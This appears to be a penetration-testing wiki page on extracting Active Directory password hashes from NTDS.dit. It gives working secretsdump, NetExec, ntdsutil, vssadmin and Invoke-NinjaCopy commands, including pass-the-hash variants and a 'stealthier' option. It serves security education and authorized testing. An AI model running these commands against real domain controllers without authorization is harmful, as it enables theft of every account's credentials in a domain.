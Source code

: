 ```yaml
---
description: MITRE ATT&CK™ Sub-technique T1003.003
---
```


# NTDS secrets

## Theory

NTDS (Windows NT Directory Services) is the directory services used by Microsoft Windows NT to locate, manage, and organize network resources. The NTDS.dit file is a database that stores the Active Directory data (including users, groups, security descriptors and password hashes). This file is stored on the domain controllers.

Once the secrets are extracted, they can be used for various attacks: [credential spraying](../../../../../ad/movement/credentials/bruteforcing/password-spraying.md), [stuffing](../../../../../ad/movement/credentials/bruteforcing/stuffing.md), [shuffling](../../../../../ad/movement/credentials/credential-shuffling.md), [cracking](../../../../../ad/movement/credentials/cracking.md), [pass-the-hash](broken-reference), [overpass-the-hash](../../../../../ad/movement/kerberos/ptk.md) or [silver or golden tickets](../../../../../ad/movement/kerberos/forged-tickets.md).

## Practice

Since the NTDS.dit is constantly used by AD processes such as the Kerberos KDC, it can't be copied like any other file. In order to exfiltrate it from a live domain controller and extract password hashes from it, many techniques can be used.

Just like with [SAM & LSA secrets](broken-reference), the SYSTEM registry hive contains enough info to decrypt the NTDS.dit data. The hive file (`\system32\config\system`) can either be exfiltrated the same way the NTDS.dit file is, or it can be exported with `reg save HKLM\SYSTEM 'C:\Windows\Temp\system.save'`.

{% tabs %}
{% tab title="UNIX-Like" %}
### Secretsdump.py

[Impacket](https://github.com/SecureAuthCorp/impacket)'s [secretsdump](https://github.com/SecureAuthCorp/impacket/blob/master/examples/secretsdump.py) (Python) can be used to remotely dump NTDS.dit through Volume Shadow Copy. Several authentication methods can be used like [pass-the-hash](../../../../../ad/movement/ntlm/pth.md) (LM/NTLM), or [pass-the-ticket](../../../../../ad/movement/kerberos/ptt.md) (Kerberos).

```bash
# Remote dumping of NTDS.dit using Shadow Copy
secretsdump.py 'DOMAIN/USER:PASSWORD@TARGET' -use-vss -just-dc

# Remote dumping of NTDS.dit using Shadow Copy (pass-the-hash)
secretsdump.py -hashes 'LMhash:NThash' 'DOMAIN/USER@DC_TARGET' -use-vss -just-dc

# Remote dumping of NTDS.dit using Shadow Copy
secretsdump.py -k -no-pass 'DOMAIN/USER@DC_TARGET' -use-vss -just-dc

# Offline dumping of NTDS.dit secrets from exported files/hives
secretsdump.py -system '/path/to/system.save' -ntds ntds.dit.save LOCAL
```

### NetExec

[NetExec](https://github.com/Pennyw0rth/NetExec) (Python) can also be used to remotely dump NTDS.dit through Volume Shadow Copy or NTDSUtil. It offers several authentication methods like [pass-the-hash](../../../../../ad/movement/ntlm/pth.md) (NTLM), or [pass-the-ticket](../../../../../ad/movement/kerberos/ptt.md) (Kerberos)

```bash
### Shadow Copy
# Remote dumping of NTDS.dit using Shadow Copy
netexec smb $TARGETS -d $DOMAIN -u $USER -p $PASSWORD --ntds vss

# Remote dumping of NTDS.dit using Shadow Copy (pass-the-hash)
netexec smb $TARGETS -d $DOMAIN -u $USER -H $NThash --ntds vss

# Remote dumping of NTDS.dit using Shadow Copy (pass-the-ticket)
netexec smb $TARGETS -k --use-kcache --ntds vss

### NTDSUtil
# Remote dumping of NTDS.dit using NTDSUtil
netexec smb $TARGETS -d $DOMAIN -u $USER -p $PASSWORD -M ntdsutil

# Remote dumping of NTDS.dit using NTDSUtil (pass-the-hash)
netexec smb $TARGETS -d $DOMAIN -u $USER -H $NThash -M ntdsutil

# Remote dumping of NTDS.dit using NTDSUtil (pass-the-ticket)
netexec smb $TARGETS -k --use-kcache -M ntdsutil
```

{% hint style="success" %}
In addition when using **NetExec** or **Secretsdump**, the `-exec-method` option can be set to `smbexec`, `wmiexec` or `mmcexec` to specify the remote command execution method on which the process should rely.
{% endhint %}
{% endtab %}

{% tab title="Windows" %}
### AD maintenance (NTDSUtil)

NTDSUtil.exe is a diagnostic tool available as part of Active Directory. It has the ability to save a snapshot of the Active Directory data. Running the following command will copy the NTDS.dit database and the SYSTEM and SECURITY hives to `C:\Windows\Temp`.

```bash
ntdsutil "activate instance ntds" "ifm" "create full C:\Windows\Temp\NTDS" quit quit
```

The following files can then be exported

* `C:\Windows\Temp\NTDS\Active Directory\ntds.dit`
* `C:\Windows\Temp\NTDS\registry\SYSTEM`

{% hint style="warning" %}
If the NTDS database is very large (several gigabytes), the generation of a defragmented backup with ntdsutil consumes a lot of CPU and disk resources on the server, which can cause slowdowns and other undesirable effects on the domain controller.
{% endhint %}

### Volume Shadow Copy (VSSAdmin)

VSS (Volume Shadow Copy) is a Microsoft Windows technology, implemented as a service, that allows the creation of backup copies of files or volumes, even when they are in use. The following command will create the shadow copy and will print two values that will be used later: the ID and the Name of the shadow copy.

```bash
vssadmin create shadow /for=C:
```

Once the VSS is created for the target drive, it is then possible to copy the target files from it.

```bash
copy $ShadowCopyName\Windows\NTDS\NTDS.dit C:\Windows\Temp\ntds.dit.save
copy $ShadowCopyName\Windows\System32\config\SYSTEM C:\Windows\Temp\system.save
```

Once the required files are exfiltrated, the shadow copy can be removed

```bash
vssadmin delete shadows /shadow=$ShadowCopyId
```

### Invoke-NinjaCopy

[Invoke-NinjaCopy](https://github.com/PowerShellMafia/PowerSploit/blob/master/Exfiltration/Invoke-NinjaCopy.ps1) is a PowerShell script part of the PowerSploit suite able to "copy files off an NTFS volume by opening a read handle to the entire volume (such as c:) and parsing the NTFS structures. **This technique is stealthier than the others.**

```bash
Invoke-NinjaCopy.ps1 -Path "C:\Windows\NTDS\NTDS.dit" -LocalDestination "C:\Windows\Temp\ntds.dit.save"
```
{% endtab %}

{% tab title="NTDS Parsing" %}
## Secrets dump

Once the required files are exfiltrated, they can be parsed by tools like [secretsdump](https://github.com/SecureAuthCorp/impacket/blob/master/examples/secretsdump.py) (Python, part of [Impacket](https://github.com/SecureAuthCorp/impacket/)) or [gosecretsdump](https://github.com/c-sto/gosecretsdump) (Go, faster for big files).

```bash
secretsdump -ntds ntds.dit.save -system system.save LOCAL
gosecretsdump -ntds ntds.dit.save -system system.save
```

### NTDS Directory parsing and extraction

With the required files, it is possible to extract more information than just secrets. The NTDS file is responsible for storing the entire directory, with users, groups, OUs, trusted domains etc... This data can be retrieved by parsing the NTDS with tools like [ntdsdotsqlite](https://github.com/almandin/ntdsdotsqlite). With the NTDS alone, objects can be extracted from the NTDS such as user and machine accounts, with a lot of information about them: descriptions, user account control flags, last logon and password change timestamps etc. This information is stored as an SQLite database which is easier to browse and query.

With the `SYSTEM` hive available it is able to extract credentials as well: NT and LM hashes, supplemental credentials such as kerberos keys, cleartext passwords and password hash history.

```bash
ntdsdotsqlite ntds.dit -o ntds.sqlite
ntdsdotsqlite ntds.dit -o ntds.sqlite --system SYSTEM.hive
```
{% endtab %}
{% endtabs %}

## Resources

{% embed url="https://www.thehacker.recipes/ad/movement/credentials/dumping/ntds" %}
